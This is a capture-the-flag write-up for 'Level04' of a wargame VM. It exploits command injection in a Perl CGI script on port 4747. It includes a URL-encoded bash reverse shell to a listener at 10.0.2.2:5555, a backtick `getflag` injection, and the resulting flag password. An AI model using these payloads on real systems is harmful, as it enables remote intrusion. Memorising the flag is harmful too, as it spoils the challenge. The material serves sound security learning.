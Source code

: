 # Level04 Writeup

## Objective
Gain access to the `flag04` user and retrieve the password for `level05`.

## Steps Taken

1. **Discovery of Perl Script**  
   In the home directory of the user, I found a Perl script (`level04.pl`) associated with a web service running on port `4747`:
   ```perl
   #!/usr/bin/perl
   # localhost:4747
   use CGI qw{param};
   print "Content-type: text/html\n\n";
   sub x {
     $y = $_[0];
     print `echo $y 2>&1`;
   }
   x(param("x"));
   ```

2. **Vulnerability Identification**  
   The script reads a parameter `x` from the URL and directly injects it into a shell command:
   ```perl
   print `echo $y 2>&1`;
   ```
   This line is vulnerable to **command injection**, allowing arbitrary code execution by injecting shell commands into the parameter.

3. **Exploit Option 1: Reverse Shell (Used)**  
   I set up a listener on my host machine (host IP for NAT gateway: `10.0.2.2`) on port `5555`:
   ```bash
   nc -lvnp 5555
   ```
   Then, from the guest machine, I triggered a reverse shell using a URL-encoded payload:
   ```bash
   curl "http://localhost:4747/?x=%24%28bash+-c+'bash+-i+%3E%26+/dev/tcp/10.0.2.2/5555+0%3E%261'%29"
   ```
   This gave me an interactive shell on my host, connected as the `flag04` user inside the VM.

4. **Exploit Option 2: Direct Flag Retrieval**  
   Alternatively, I could have used a simpler payload to directly retrieve the flag:
   ```bash
   curl 'http://localhost:4747/level04.pl?x=`getflag`'
   ```
   This executes the `getflag` command and returns the output in the HTTP response.

5. **Retrieve the Flag**  
   With shell access as `flag04`, I executed:
   ```bash
   getflag
   ```
   This returned the flag for the next level:
   ```
   ne2searoevaevoem4ov4ar8ap
   ```

## Result
Successfully retrieved the password for `level05`:  
```
ne2searoevaevoem4ov4ar8ap
```
